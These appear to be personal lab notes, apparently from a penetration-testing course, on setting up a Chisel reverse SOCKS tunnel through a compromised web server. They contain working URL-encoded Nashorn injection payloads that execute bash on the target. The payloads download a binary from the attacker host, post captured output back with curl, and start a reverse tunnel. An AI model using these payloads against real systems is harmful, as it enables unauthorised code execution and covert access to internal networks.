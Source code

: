 can check apache logs for requests
```
tail -f /var/log/apache2/access.log
```

Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the server subcommand, along with the bind port (--port) and the --reverse flag to allow the reverse port forward.

```
chisel server --port 8080 --reverse
```

Before we try to run the Chisel client, we'll run tcpdump on our Kali machine to log incoming traffic. We'll start the capture filtering to tcp port 8080 to only capture traffic on TCP port 8080.
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

now we want this command to connect chisel client to server 
```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

however we get no connection, need to fetch error log
```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```

need to get chisel 1.81 binaruy 
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
sudo cp ./chisel /var/www/html
```

force client to recopy
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

we can then re-run command and chec connection
```
ss -ntplu
```

SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the ProxyCommand configuration option. We can either write this into a configuration file, or pass it as part of the command line with -o

